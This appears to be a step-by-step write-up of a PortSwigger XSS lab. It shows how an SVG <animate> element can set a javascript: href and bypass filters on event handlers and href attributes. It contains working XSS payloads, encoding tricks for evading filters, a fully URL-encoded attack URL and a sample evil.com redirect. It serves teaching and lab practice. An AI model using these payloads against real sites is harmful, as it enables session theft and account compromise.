

---

**Difficulty:** 🔴 Expert

**Goal:**

- 🔍 Identify reflected XSS with whitelisted tags but blocked event handlers
- 🎯 Understand SVG animation capabilities and security implications
- 💉 Discover that `href` attributes are blocked on anchor tags
- 🔧 Use SVG `<animate>` element to dynamically set href attribute
- 🚀 Leverage `attributeName` to target the href of parent `<a>` element
- 🎉 Execute JavaScript via `javascript:` URL when user clicks

---

## 🧠 **Concept Recap**

> **Reflected XSS with event handlers and href attributes blocked** occurs when an application implements tag whitelisting to allow certain HTML/SVG tags but blocks traditional XSS vectors like event handlers (onclick, onerror, etc.) and direct href attribute assignment. However, SVG provides animation elements (`<animate>`, `<set>`, `<animateMotion>`) that can dynamically modify attributes of other elements during runtime. By using the `attributeName` property to target `href` and the `values` property to set a `javascript:` URL, an attacker can bypass static filtering and create a clickable element that executes JavaScript when clicked—all without using blocked event handlers or direct href assignment.

### 📊 **The Vulnerability**

**Understanding Tag Whitelisting:**

```html
What is tag whitelisting?

Approach:
└── Instead of blocking specific tags (blacklist)
    └── Only allow specific tags (whitelist)
        └── More secure than blacklisting
            └── But still can be bypassed! ⚠️

Example whitelist:
Allowed tags:
├── <div>, <p>, <span>, <b>, <i>, <strong>
├── <svg>, <a>, <text>, <animate>
└── Safe presentation tags only

Blocked tags:
├── <script> - Direct code execution
├── <iframe> - Embedding external content
├── <object> - Plugin execution
├── <embed> - Similar to object
└── Any dangerous tags

Traditional XSS attempts:

Attempt 1: Script tag
<script>alert(1)</script>
└── Blocked by whitelist ❌

Attempt 2: Iframe
<iframe src="javascript:alert(1)"></iframe>
└── <iframe> not whitelisted ❌

Attempt 3: Event handler

└──  not whitelisted ❌
    OR event handlers filtered ❌

Attempt 4: Direct href
<a href="javascript:alert(1)">Click</a>
└── href attribute blocked ❌

All traditional approaches fail!

The challenge:
└── Use ONLY whitelisted tags
    └── WITHOUT blocked attributes
        └── Still achieve code execution! 💡
```

**What is SVG?**

```HTML
SVG = Scalable Vector Graphics

Definition:
└── XML-based vector image format
    └── Defined by W3C standard
        └── Supported by all modern browsers
            └── Full integration with HTML! ✓

Basic SVG structure:

<svg width="100" height="100">
    <circle cx="50" cy="50" r="40" fill="red"/>
</svg>

Renders as:
┌──────────────┐
│              │
│    ●         │
│   Red        │
│   Circle     │
│              │
└──────────────┘

SVG capabilities:
├── Shapes (circle, rect, polygon, path)
├── Text elements
├── Links (<a> tags inside SVG)
├── Animations
├── Scripting support
└── Full DOM integration! ✓

Why SVG is interesting for XSS:

Feature 1: Contains <a> tags
<svg>
    <a href="https://example.com">
        <text>Click me</text>
    </a>
</svg>

This is a clickable link inside SVG!

Feature 2: Supports JavaScript URLs
<svg>
    <a href="javascript:alert(1)">
        <text>Click me</text>
    </a>
</svg>

Would execute JavaScript on click!
(But href is blocked in this lab ❌)

Feature 3: Animation elements
<svg>
    <animate attributeName="fill" values="red;blue"/>
</svg>

Can modify attributes dynamically! ✓

Feature 4: DOM manipulation
SVG elements are part of DOM
Can be manipulated with JavaScript
Can interact with HTML elements
Full browser API access! ✓

The key insight:
└── SVG animations can modify attributes
    └── Including security-sensitive attributes
        └── Like href on <a> tags
            └── Bypassing static filtering! 💥
```

**Understanding SVG Animation Elements:**

```HTML
SVG animation elements:

1. <animate>
   - Animates attribute values over time
   - Can target any attribute
   - Syntax: <animate attributeName="..." values="..."/>

2. <set>
   - Sets attribute to value at specific time
   - Simpler than animate
   - Syntax: <set attributeName="..." to="..."/>

3. <animateTransform>
   - Animates transform attributes
   - For scaling, rotation, translation
   - Syntax: <animateTransform attributeName="transform".../>

4. <animateMotion>
   - Moves element along path
   - For complex motion animation
   - Syntax: <animateMotion path="..."/>

For XSS, we focus on: <animate>

The <animate> element:

Purpose:
└── Animate SVG attribute values
    └── From one value to another
        └── Over specified duration

Attributes:
├── attributeName - Which attribute to animate
├── values - List of values (semicolon-separated)
├── dur - Duration of animation
├── repeatCount - How many times to repeat
├── from/to - Start and end values
└── keytimes - Control timing of values

Example - Animating position:
<svg>
    <circle cx="10" cy="10" r="5">
        <animate 
            attributeName="cx" 
            values="10;50;90" 
            dur="3s"/>
    </circle>
</svg>

What happens:
0s: cx = 10 (circle at left)
1.5s: cx = 50 (circle at center)
3s: cx = 90 (circle at right)

The circle moves from left to right!

Example - Animating color:
<svg>
    <rect width="100" height="100">
        <animate 
            attributeName="fill" 
            values="red;green;blue" 
            dur="2s" 
            repeatCount="indefinite"/>
    </rect>
</svg>

What happens:
Colors cycle: red → green → blue → red → ...
Indefinitely (repeatCount="indefinite")

The critical attribute: attributeName

What can attributeName target?

ANY SVG attribute:
├── fill (color)
├── stroke (outline color)
├── opacity (transparency)
├── x, y (position)
├── width, height (size)
└── href (LINK TARGET!) 💥

Example - Animating href:
<svg>
    <a>
        <animate 
            attributeName="href" 
            values="https://safe.com;javascript:alert(1)"/>
        <text>Click</text>
    </a>
</svg>

What happens:
The <a> tag's href gets animated!
Eventually points to javascript:alert(1)
Click executes JavaScript! 💥

This is the core technique for this lab! ✓
```

**How SVG `<animate>` Bypasses Filters:**

```HTML
The bypass mechanism:

Step 1: Filter examines initial HTML
Input: <a><animate attributeName="href" values="javascript:alert(1)"/><text>Click</text></a>

Filter checks:
├── Is <a> tag whitelisted? Yes ✓
├── Does <a> have href attribute? No ✓
├── Is <animate> tag whitelisted? Yes ✓
├── Does <animate> have dangerous events? No ✓
└── All checks pass! ✓

Filter allows the input through!

Step 2: Browser parses SVG
<svg>
    <a>
        <animate attributeName="href" values="javascript:alert(1)"/>
        <text>Click me</text>
    </a>
</svg>

Browser sees:
- <a> element (anchor/link)
- <animate> child element
- <text> child element

Step 3: Animation activates
Browser's SVG animation engine:
1. Finds <animate> element
2. Reads attributeName="href"
3. Targets parent <a> element's href
4. Sets href to values[0]: "javascript:alert(1)"
5. <a> now has href attribute!

Step 4: User clicks
<a href="javascript:alert(1)">Click me</a>
         ↓
User clicks "Click me" text
         ↓
Browser navigates to href
         ↓
javascript: URL executes!
         ↓
alert(1) pops up! 💥

Why the filter failed:

Filter's assumption:
"If <a> doesn't have href attribute initially,
 it's safe to allow"

Reality:
"<animate> can add href attribute dynamically
 after filter has run!"

This is called: Time-of-check-time-of-use (TOCTOU) issue

Filter checks: HTML at input time
Browser uses: HTML at runtime
Time gap: Animation modifies HTML! 💥

The sequence:

Time: T0 (Input filtering)
<a> has no href attribute → Safe! ✓

Time: T1 (Browser parsing)
<animate> element loads
Animation engine starts

Time: T2 (Animation execution)
<animate> sets href on parent <a>
<a> now has href="javascript:alert(1)"

Time: T3 (User interaction)
User clicks the link
JavaScript executes! 💥

The filter never saw the dangerous href
because it was added AFTER filtering! ✓

Classic security vulnerability:
└── Check state at time A
    └── Use state at time B
        └── State changed between A and B
            └── Security bypass! 💥
```

**Understanding the `attributeName` Property:**

```HTML
The attributeName attribute:

Definition:
└── Specifies which attribute to animate
    └── On the parent or referenced element

Syntax:
<animate attributeName="TARGET_ATTRIBUTE" ... />

Valid targets:
ANY attribute on the parent element!

Examples:

Example 1: Fill attribute
<circle fill="red">
    <animate attributeName="fill" values="red;blue"/>
</circle>

Result: Circle color animates from red to blue

Example 2: Position attribute
<rect x="10">
    <animate attributeName="x" values="10;100"/>
</rect>

Result: Rectangle moves from x=10 to x=100

Example 3: Opacity attribute
<text opacity="1">
    <animate attributeName="opacity" values="1;0"/>
</text>

Result: Text fades from visible to invisible

Example 4: HREF attribute (our attack!)
<a>
    <animate attributeName="href" values="javascript:alert(1)"/>
    <text>Click</text>
</a>

Result: Link's href set to javascript:alert(1)! 💥

The security issue:

attributeName can target ANY attribute:
├── Presentation attributes (fill, opacity) - Safe
├── Position attributes (x, y, width) - Safe
├── Link attributes (href, xlink:href) - DANGEROUS! ⚠️
└── Event handlers (onclick, onerror) - DANGEROUS! ⚠️

While event handlers are blocked:
├── Can't use: <a onclick="alert(1)">
├── Can't use: 
└── Blocked by filter ❌

BUT href can be set dynamically:
├── Can use: <animate attributeName="href" values="javascript:alert(1)">
├── Sets href after filtering
└── Bypasses static checks! ✓

Why this works:

Static filter sees:
<a> - No href attribute, no events ✓ Safe!
<animate> - Just an animation element ✓ Safe!

Runtime browser sees:
<a href="javascript:alert(1)"> - DANGEROUS! ⚠️

The filter can't detect dynamic attribute assignment!

Historical note:
This technique was discovered by Gareth Heyes
PortSwigger Research, September 2020
Affects many WAFs and filters
Still relevant today! 💡
```

**Understanding the `values` Property:**

```js
The values attribute:

Definition:
└── List of values for animation
    └── Separated by semicolons
        └── Animation cycles through them

Syntax:
<animate 
    attributeName="href"
    values="value1;value2;value3"/>

How it works:

Example with 3 values:
<animate 
    attributeName="fill"
    values="red;green;blue"
    dur="3s"/>

Timeline:
0.0s - 1.0s: fill="red"
1.0s - 2.0s: fill="green"
2.0s - 3.0s: fill="blue"
3.0s: Animation ends, stays on last value

For XSS exploitation:

Simple approach:
<animate 
    attributeName="href"
    values="javascript:alert(1)"/>

Result:
href immediately set to javascript:alert(1)! ✓

Multiple values approach:
<animate 
    attributeName="href"
    values="https://safe.com;javascript:alert(1)"/>

Result:
href starts as safe URL
Then changes to javascript:alert(1)
Might bypass some detection! 💡

Advanced obfuscation:
<animate 
    attributeName="href"
    values="https://safe.com?x=1;javascript:alert(1);https://safe.com"/>

Values:
1. https://safe.com?x=1 (looks safe)
2. javascript:alert(1) (malicious)
3. https://safe.com (looks safe again)

Why this bypasses WAF:
WAF sees: values="https://safe.com?x=1;javascript:alert(1);https://safe.com"
WAF thinks: "Starts with https://, seems safe"
WAF allows: Payload passes through! ✓

Reality:
Animation cycles through all values
Eventually reaches javascript:alert(1)
User clicks during that time
JavaScript executes! 💥

The semicolon separator:

Critical detail:
values uses semicolon (;) as separator

This can confuse parsers:
values="https://example.com?x=1;javascript:alert(1)"

Some parsers think:
"Just a URL with query parameters"

Reality:
Two separate values:
1. https://example.com?x=1
2. javascript:alert(1)

The semicolon is the separator! ✓

URL encoding consideration:
Semicolon can be written as:
- ; (literal)
- &#59; (HTML entity)
- %3B (URL encoding)

All are equivalent:
values="url1;url2"
values="url1&#59;url2"
values="url1%3Burl2"

For bypassing filters:
- Use HTML entities: &#59;
- Hides semicolon from simple regex
- Browser still interprets correctly! ✓
```

**The `javascript:` URL Scheme:**

```js
Understanding javascript: URLs:

What are javascript: URLs?

Pseudo-protocol:
└── Not a real network protocol (like http:)
    └── Special browser scheme
        └── Executes JavaScript code
            └── When URL is "navigated to"

Syntax:
javascript:CODE_TO_EXECUTE

Examples:

Example 1: Simple alert
javascript:alert(1)

When navigated:
- Executes: alert(1)
- Shows alert popup
- Returns result to page

Example 2: Complex code
javascript:void(window.location='https://evil.com')

When navigated:
- Executes JavaScript
- Redirects to evil.com
- void() prevents return value

Example 3: Multiple statements
javascript:var x=1;alert(x);

When navigated:
- Executes all statements
- Can be full program!

Where javascript: URLs work:

Location 1: Address bar
Type in browser: javascript:alert(1)
Press Enter: Alert executes! ✓

Location 2: Anchor href
<a href="javascript:alert(1)">Click</a>
Click link: Alert executes! ✓

Location 3: Window.location
window.location = 'javascript:alert(1)'
Executes: Alert runs! ✓

Location 4: Form action
<form action="javascript:alert(1)">
Submit form: Alert runs! ✓

Location 5: SVG href (our attack!)
<a href="javascript:alert(1)">Click</a>
In SVG: Works perfectly! ✓

Security implications:

Dangerous because:
├── Executes arbitrary JavaScript
├── Full access to page context
├── Can steal cookies
├── Can modify DOM
├── Can make requests
└── Complete XSS! 💥

Why it's often filtered:

Common filters:
├── Block href attribute entirely
├── Validate href against whitelist
├── Strip javascript: scheme
├── Encode/escape the colon
└── Multiple protection layers

But our attack bypasses:
Filter checks: <a> tag has no href
Reality: <animate> adds href later
Filter defeated! ✓

URL encoding tricks:

Standard:
javascript:alert(1)

Encoded variations:
java&#115;cript:alert(1)
└── &#115; = 's'

java&#x73;cript:alert(1)
└── &#x73; = 's' (hex)

jAvAsCrIpT:alert(1)
└── Case doesn't matter!

javascript&#58;alert(1)
└── &#58; = ':'

javascript:alert&#40;1&#41;
└── &#40; = '(', &#41; = ')'

All equivalent to browser! ✓

Alternative schemes:

data: URLs:
<a href="data:text/html,<script>alert(1)</script>">
└── Embeds HTML
    └── Can execute scripts
        └── Another XSS vector! 💡

vbscript: URLs (IE only):
<a href="vbscript:MsgBox(1)">
└── VBScript execution
    └── Legacy IE only
        └── Mostly irrelevant now

For this lab:
└── javascript: is the key
    └── Set via animate values
        └── Executed on click! ✓
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab and Initial Exploration**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the website interface
3. 🔍 Look for search functionality

**Homepage layout:**

```
┌────────────────────────────────────┐
│ Blog Website                       │
├────────────────────────────────────┤
│                                    │
│ [Search: _____________] [Search]   │ ← Search box
│                                    │
│ Recent Posts:                      │
│ ├── Post 1                         │
│ ├── Post 2                         │
│ └── Post 3                         │
│                                    │
└────────────────────────────────────┘
```

**Initial observations:**

```
✅ Search functionality present
✅ Input field visible
💡 Likely reflected XSS vulnerability
💡 Let's test basic reflection
```

---

### 🧪 **Step 2 — Test Basic Reflection**

Let's verify that search input is reflected on the page.

1. 🔍 In search box, enter: `test123`
2. 🚀 Click **"Search"**

**URL changes to:**

```
https://YOUR-LAB-ID.web-security-academy.net/?search=test123
```

**Page displays:**

```
┌────────────────────────────────────┐
│ Search Results                     │
├────────────────────────────────────┤
│                                    │
│ 0 search results for 'test123'     │ ← Input reflected!
│                                    │
└────────────────────────────────────┘
```

**Analysis:**

```
✅ Search term reflected in page
✅ Shows in "X search results for 'Y'"
✅ Reflection confirmed!
💡 Now test for XSS
```

---

### 🔬 **Step 3 — Test Basic XSS Payloads**

Try standard XSS vectors to understand the filtering.

**Test 1: Script tag**

1. 🔍 Enter: `<script>alert(1)</script>`
2. 🚀 Click **"Search"**

**Expected result:**

```js
URL: /?search=<script>alert(1)</script>

Page shows:
"0 search results for ''"
OR
Script tag stripped/blocked ❌

Analysis:
└── <script> tag not whitelisted
    └── Or completely removed
        └── Traditional approach fails!
```

**Test 2: IMG tag with onerror**

1. 🔍 Enter: ``
2. 🚀 Click **"Search"**

**Expected result:**

```js
URL: /?search=

Possible outcomes:
Option A:  tag removed (not whitelisted)
Option B: onerror attribute stripped
Option C: Both removed

No alert popup ❌

Analysis:
└── Event handlers are blocked
    └── Lab description confirms this
        └── Need alternative approach!
```

**Test 3: Anchor tag with href**

1. 🔍 Enter: `<a href="javascript:alert(1)">Click</a>`
2. 🚀 Click **"Search"**

**Expected result:**

```js
URL: /?search=<a href="javascript:alert(1)">Click</a>

Possible outcomes:
Option A: href attribute stripped
Option B: javascript: URL blocked
Option C: Entire tag removed

Page might show:
"0 search results for 'Click'"
└── Text shown but not clickable
    └── href blocked! ❌

Analysis:
└── Lab description: "href attributes blocked"
    └── Can't use direct href assignment
        └── Must find bypass! 💡
```

---

### 🎯 **Step 4 — Test SVG Tag**

Check if SVG tags are whitelisted.

1. 🔍 Enter: `<svg>test</svg>`
2. 🚀 Click **"Search"**

**Expected result:**

```js
URL: /?search=<svg>test</svg>

If SVG allowed:
Page shows: "0 search results for 'test'"
└── SVG tag accepted! ✓

If SVG blocked:
Page shows: "0 search results for ''"
└── SVG stripped ❌

For this lab:
└── SVG should be whitelisted! ✓
```

---

### 🔧 **Step 5 — Test SVG with Anchor**

Test if `<a>` tag works inside SVG.

1. 🔍 Enter: `<svg><a><text>Click me</text></a></svg>`
2. 🚀 Click **"Search"**

**Expected result:**

```js
URL: /?search=<svg><a><text>Click me</text></a></svg>

Page displays:
┌────────────────────────────────────┐
│ Search Results                     │
├────────────────────────────────────┤
│                                    │
│ 0 search results for 'Click me'    │
│                                    │
│ Click me  ← Rendered text          │
│                                    │
└────────────────────────────────────┘

Analysis:
✅ SVG tag allowed
✅ <a> tag inside SVG allowed
✅ <text> tag allowed
✅ Text "Click me" renders

View page source:
<svg><a><text>Click me</text></a></svg>
└── Tags preserved! ✓

This confirms:
└── SVG elements are whitelisted
    └── Can use SVG for attack! ✓
```

---

### 💡 **Step 6 — Test Animate Element**

Check if `<animate>` tag is allowed.

1. 🔍 Enter: `<svg><animate attributeName="fill" values="red"/></svg>`
2. 🚀 Click **"Search"**

**Expected result:**

```js
URL: /?search=<svg><animate attributeName="fill" values="red"/></svg>

If animate allowed:
Page source shows:
<svg><animate attributeName="fill" values="red"/></svg>
└── <animate> tag preserved! ✓

If animate blocked:
Tag removed or stripped ❌

For this lab:
└── <animate> should be allowed! ✓

Analysis:
✅ <animate> is whitelisted
✅ attributeName attribute allowed
✅ values attribute allowed
💡 We can use this for attack!
```

---

### 🛠️ **Step 7 — Construct the Attack Payload**

Now build the complete XSS payload using SVG animate.

**Payload components:**

```js
Component 1: SVG wrapper
<svg>
└── SVG container element
    └── Required for SVG content

Component 2: Anchor tag
<a>
└── Link element (clickable)
    └── Target for href animation

Component 3: Animate element
<animate attributeName="href" values="javascript:alert(1)"/>
└── Sets href attribute dynamically
    └── attributeName="href" - targets parent <a> href
    └── values="javascript:alert(1)" - the malicious URL

Component 4: Text element
<text x="20" y="20">Click me</text>
└── Visible clickable text
    └── x, y position the text
    └── "Click me" is required (lab specification)

Complete payload:
<svg><a><animate attributeName="href" values="javascript:alert(1)"/><text x="20" y="20">Click me</text></a></svg>

How it works:

Step 1: SVG container created
<svg>
└── Establishes SVG context

Step 2: Anchor element created
<a>
└── Link element (but no href yet)

Step 3: Animate element loads
<animate attributeName="href" values="javascript:alert(1)"/>
└── Animation engine activates
    └── Targets parent <a> element
        └── Sets href to "javascript:alert(1)"

Step 4: Text element renders
<text x="20" y="20">Click me</text>
└── Displays "Click me" at position (20,20)
    └── Inside the <a> tag
        └── Therefore clickable!

Step 5: User clicks
User clicks "Click me" text
         ↓
Browser follows href
         ↓
href = "javascript:alert(1)"
         ↓
JavaScript executes!
         ↓
alert(1) pops up! 💥

Final structure:
<svg>
    <a href="javascript:alert(1)">  ← Added by animate!
        <animate attributeName="href" values="javascript:alert(1)"/>
        <text x="20" y="20">Click me</text>
    </a>
</svg>
```

**Why this bypasses filters:**

```js
Filter's perspective:

Checks performed:
1. Is <svg> allowed? Yes ✓
2. Is <a> allowed? Yes ✓
3. Does <a> have href? No ✓ (Safe!)
4. Are there event handlers? No ✓
5. Is <animate> allowed? Yes ✓
6. Is <text> allowed? Yes ✓

All checks pass! ✓

Filter allows: <svg><a><animate attributeName="href" values="javascript:alert(1)"/><text x="20" y="20">Click me</text></a></svg>

Runtime behavior:

Browser processes SVG:
1. Creates <svg> element
2. Creates <a> element (no href initially)
3. Processes <animate> element
4. Animation engine reads attributeName="href"
5. Animation sets parent <a> href to values[0]
6. <a> now has href="javascript:alert(1)"!
7. Creates <text> element inside <a>
8. Text is now clickable link!

The bypass:
└── Filter saw: <a> with no href (safe)
    └── Runtime has: <a> with javascript: href (dangerous)
        └── Dynamic attribute addition bypassed static check! ✓
```

---

### 🚀 **Step 8 — Test the Payload**

Let's test the complete payload.

1. 🔍 In search box, enter:

```html
<svg><a><animate attributeName="href" values="javascript:alert(1)"/><text x="20" y="20">Click me</text></a></svg>
```

2. 🚀 Click **"Search"**

**Page displays:**

```
┌────────────────────────────────────┐
│ Search Results                     │
├────────────────────────────────────┤
│                                    │
│ 0 search results for 'Click me'    │
│                                    │
│ Click me  ← Clickable text appears │
│                                    │
└────────────────────────────────────┘
```

3. 🖱️ **Click on the "Click me" text**

**Expected behavior:**

```js
When you click:

Browser processes click:
1. Click event on <text> element
2. <text> is inside <a> element
3. Browser follows <a> href
4. href = "javascript:alert(1)"
5. Browser executes JavaScript!

Alert popup:
┌────────────────────────────────────┐
│ This page says:                    │
│                                    │
│ 1                                  │
│                                    │
│            [OK]                    │
└────────────────────────────────────┘

Success indicators:
✅ "Click me" text is clickable
✅ Alert popup appears
✅ Shows number "1"
✅ XSS successful! 🎉

View page source (F12 → Elements):
<svg>
    <a href="javascript:alert(1)">
        <animate attributeName="href" values="javascript:alert(1)"/>
        <text x="20" y="20">Click me</text>
    </a>
</svg>

Notice:
└── <a> tag now has href attribute
    └── Added by <animate> element
        └── Dynamically at runtime! ✓
```

**If alert doesn't appear:**

```
Troubleshooting:

Issue 1: Text not clickable
- Check if <a> tag was filtered
- Verify SVG rendered correctly
- Inspect element (F12)

Issue 2: Error in console
- Check JavaScript console (F12)
- Look for CSP violations
- Check for syntax errors

Issue 3: Payload stripped
- Some tags might be filtered
- Try viewing page source
- Check if payload is present

Issue 4: Missing "Click me" text
- Lab requires exact text "Click me"
- Or "Click" in the label
- Check lab instructions

For this lab:
└── Should work as described
    └── If not, check payload syntax
        └── Ensure all tags are correct! ✓
```

---

### 📝 **Step 9 — URL Encode for Delivery**

To deliver the attack via URL, we need proper encoding.

**Original payload:**

```html
<svg><a><animate attributeName="href" values="javascript:alert(1)"/><text x="20" y="20">Click me</text></a></svg>
```

**URL encoded payload:**

```js
%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E%3C%2Fsvg%3E

Breaking down the encoding:

Original → Encoded
<        → %3C
>        → %3E
space    → +  or %20
=        → %3D
/        → %2F
:        → %3A
(        → (  (no encoding needed)
)        → )  (no encoding needed)
1        → 1  (no encoding needed)

Character-by-character:
%3C  = <
svg  = svg
%3E  = >
%3C  = <
a    = a
%3E  = >
%3C  = <
animate = animate
+    = space
attributeName = attributeName
%3D  = =
href = href
+    = space
values = values
%3D  = =
javascript = javascript
%3A  = :
alert = alert
(    = (
1    = 1
)    = )
+    = space
%2F  = /
%3E  = >
%3C  = <
text = text
+    = space
x    = x
%3D  = =
20   = 20
+    = space
y    = y
%3D  = =
20   = 20
%3E  = >
Click = Click
%20  = space
me   = me
%3C  = <
%2F  = /
text = text
%3E  = >
%3C  = <
%2F  = /
a    = a
%3E  = >
%3C  = <
%2F  = /
svg  = svg
%3E  = >
```

**Complete attack URL:**

```HTTP
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E%3C%2Fsvg%3E

Replacing YOUR-LAB-ID:
Find your lab ID in browser address bar
Example: 0a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d

Full URL:
https://0a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E%3C%2Fsvg%3E
```

---

### ✅ **Step 10 — Submit URL and Solve Lab**

The lab will automatically detect when you create a working exploit.

**Method 1: Direct click testing**

1. 📋 Paste the payload in search box
2. 🚀 Click "Search"
3. 🖱️ Click the "Click me" text
4. ✅ Alert appears → Lab checks for solution

**Method 2: Full URL delivery**

1. 📝 Copy the complete URL with encoded payload
2. 🌐 Paste in browser address bar
3. ⏎ Press Enter
4. 🖱️ Click the "Click me" text
5. ✅ Alert appears

**Lab completion:**

```
When alert(1) executes:

PortSwigger backend:
1. Detects alert() execution
2. Verifies it's from your payload
3. Checks that "Click" text is present
4. Marks lab as solved! 🎉

Completion banner:
┌─────────────────────────────────────────┐
│  ✅ Congratulations!                    │
│                                         │
│  You successfully exploited reflected   │
│  XSS by using SVG animate element to    │
│  dynamically set href attribute,        │
│  bypassing static filters on event      │
│  handlers and direct href assignment.   │
│                                         │
│  Lab: Reflected XSS with event          │
│       handlers and href attributes      │
│       blocked                           │
│  Status: SOLVED ✓                       │
└─────────────────────────────────────────┘
```

**What you accomplished:**

```
Attack chain completed:
1. ✅ Identified reflected XSS vulnerability
2. ✅ Discovered tag whitelist filtering
3. ✅ Found event handlers blocked
4. ✅ Found href attributes blocked
5. ✅ Tested SVG tag allowed
6. ✅ Tested <animate> element allowed
7. ✅ Crafted SVG animate payload
8. ✅ Used attributeName to target href
9. ✅ Set javascript: URL via values
10. ✅ Created clickable element
11. ✅ Executed alert(1) on click
12. ✅ Lab solved! 🎉

Skills demonstrated:
├── Understanding tag whitelisting
├── SVG security knowledge
├── Animation element exploitation
├── Dynamic attribute manipulation
├── Filter bypass techniques
└── Creative problem solving! 💡
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab
         ↓
Step 2: Test reflection
         → search=test123
         → Reflected in page ✓
         ↓
Step 3: Test basic XSS
         → <script>alert(1)</script>
         → Blocked ❌
         → 
         → Event handlers blocked ❌
         → <a href="javascript:alert(1)">
         → href blocked ❌
         ↓
Step 4: Test SVG tag
         → <svg>test</svg>
         → SVG allowed ✓
         ↓
Step 5: Test SVG anchor
         → <svg><a><text>Click</text></a></svg>
         → <a> and <text> allowed ✓
         ↓
Step 6: Test animate element
         → <svg><animate attributeName="fill"/></svg>
         → <animate> allowed ✓
         ↓
Step 7: Construct payload
         → Component 1: <svg> wrapper
         → Component 2: <a> anchor
         → Component 3: <animate attributeName="href" values="javascript:alert(1)"/>
         → Component 4: <text x="20" y="20">Click me</text>
         → Combined: Full payload ready! ✓
         ↓
Step 8: Test payload
         → Enter in search box
         → "Click me" text appears
         → Click on text
         → Alert pops up! 💥
         ↓
Step 9: URL encode
         → Convert to URL encoding
         → %3Csvg%3E%3Ca%3E%3Canimate+...
         → Full URL ready! ✓
         ↓
Step 10: Lab solved! 🎉
```

---

## 🔬 **Technical Deep Dive**

### **How the Bypass Works Internally**

```js
Detailed execution flow:

Phase 1: HTTP Request
Browser sends:
GET /?search=%3Csvg%3E%3Ca%3E%3Canimate... HTTP/1.1
Host: LAB-ID.web-security-academy.net

Server receives:
search parameter with URL-encoded payload

Phase 2: Server-Side Processing
Server decodes:
%3Csvg%3E → <svg>
%3Ca%3E → <a>
etc.

Decoded payload:
<svg><a><animate attributeName="href" values="javascript:alert(1)"/><text x="20" y="20">Click me</text></a></svg>

Server applies filter:
1. Parse HTML tags
2. Check against whitelist
3. Check for blocked attributes

Filter logic:
if tag in whitelist:
    if tag == 'a':
        if has_attribute('href'):
            block() ❌
        else:
            allow() ✓
    if tag == 'svg':
        allow() ✓
    if tag == 'animate':
        allow() ✓
    if tag == 'text':
        allow() ✓

Check results:
├── <svg> - whitelisted ✓
├── <a> - whitelisted, no href ✓
├── <animate> - whitelisted ✓
├── <text> - whitelisted ✓
└── All checks pass! ✓

Server embeds in response:
<h1>0 search results for '<svg><a><animate attributeName="href" values="javascript:alert(1)"/><text x="20" y="20">Click me</text></a></svg>'</h1>

Phase 3: Client-Side Parsing
Browser receives HTML:
<!DOCTYPE html>
<html>
<body>
    <h1>0 search results for '<svg><a><animate attributeName="href" values="javascript:alert(1)"/><text x="20" y="20">Click me</text></a></svg>'</h1>
</body>
</html>

HTML parser:
1. Parses <svg> element
2. Creates SVG DOM subtree
3. Parses <a> element
4. Creates SVGAElement (no href yet)
5. Parses <animate> element
6. Creates SVGAnimateElement
7. Parses <text> element
8. Creates SVGTextElement

DOM tree:
html
└── body
    └── h1
        └── svg
            └── a (no href attribute yet!)
                ├── animate
                │   ├── attributeName="href"
                │   └── values="javascript:alert(1)"
                └── text
                    └── "Click me"

Phase 4: SVG Animation Engine Activation
Browser's SVG engine:
1. Scans for <animate> elements
2. Finds <animate> with attributeName="href"
3. Identifies parent element: <a>
4. Reads values attribute: "javascript:alert(1)"
5. Applies animation

Animation application:
target = parent <a> element
attribute = "href"
value = "javascript:alert(1)"

Execute:
<a>.setAttribute("href", "javascript:alert(1)")

DOM tree updated:
html
└── body
    └── h1
        └── svg
            └── a href="javascript:alert(1)"  ← ADDED!
                ├── animate
                └── text
                    └── "Click me"

Phase 5: Rendering
Browser renders:
- SVG container (invisible)
- Text "Click me" at position (20,20)
- Text is inside <a> element
- <a> has href attribute
- Text appears as blue, underlined link (default styles)

User sees:
┌────────────────────────────────────┐
│ Search Results                     │
├────────────────────────────────────┤
│                                    │
│ 0 search results for 'Click me'    │
│                                    │
│ Click me  ← Appears as link        │
│                                    │
└────────────────────────────────────┘

Phase 6: User Interaction
User hovers over "Click me":
- Browser shows href in status bar
- Status bar: "javascript:alert(1)"
